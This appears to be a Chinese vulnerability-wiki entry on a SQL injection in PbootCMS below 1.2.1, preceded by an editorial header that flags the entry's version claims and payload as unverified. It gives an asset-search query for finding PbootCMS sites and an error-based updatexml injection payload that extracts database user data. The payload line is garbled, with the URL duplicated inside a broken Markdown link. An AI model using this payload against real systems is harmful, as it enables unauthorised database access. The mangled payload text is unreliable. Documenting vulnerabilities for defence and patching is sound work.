


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Index模板ext筛选、MySQLupdatexml

- **适用与权限边界（1）**：范围&lt;1.2.1与345实测1.2.1同载荷冲突，应核版本界限。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（2）**：代码块里整个URL混入\](http://...)Markdown链接尾，原样不是有效请求。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **证据待核（3）**：与345首页ext_key一处同机制，保留差异而合并证据；无独立源码/出处。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# PbootCMS ext_price SQL注入漏洞

## 漏洞描述

PbootCMS 存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

```
PbootCMS < 1.2.1
```

## 网络测绘

```
app="PBOOTCMS"
```

## 漏洞复现

主页




测试 Payload

```plain
/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123)
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
